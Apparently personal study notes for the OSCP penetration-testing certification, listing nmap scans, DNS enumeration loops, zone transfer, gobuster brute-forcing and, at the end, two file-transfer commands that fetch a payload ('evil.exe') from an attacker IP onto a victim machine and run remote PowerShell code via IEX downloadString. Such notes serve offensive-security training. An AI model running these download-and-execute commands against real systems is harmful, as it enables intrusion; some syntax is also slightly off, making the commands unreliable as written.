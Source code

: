 # OSCP Notes

------------------------------------------------------------

**Recon:**

nmap -sC -sV -oA nmap/"host" <IP>

nmap -Pn -p- --open -v <IP>

nmap --script vuln -p <PORTS> <IP>

**DNS Enumeration:**

host -t ns/mx <domain name.com>

**Forward DNS lookup:**

for name in $(cat list.txt);do
    host $name.DOMAIN.com |grep "has address" |cut -d" " -f1,4
done

**Reverse DNS lookup:**

for ip in $(seq 1 254);do
    host 10.11.1.$ip |grep "domain" |cut -d" " -f1,5
done

**DNS zone Transfer:**

host -l <DOMAIN NAME> <NAME SERVER>


**SMTP User Enumeration:**

See /opt/scripts for vrfy.py

**Directory brute-force:**

gobuster dir -u http:// -w /usr/share/seclist/Discovery/Web-Content/common.txt -t50 (-k to ignore ssl)

gobuster dir -u http:// -w /usr/share/wordlist/dirbuster/directory-list2.3-medium -t50 (-k to ignore ssl)


**File transfer methods:**

cscript wget.vbs(Echo the file to the victim machine) http://10.1.2.111:8000/evil.exe evil.exe

IEX(New-Object Net.Webclient)downloadString(http://x.x.x.x/file)







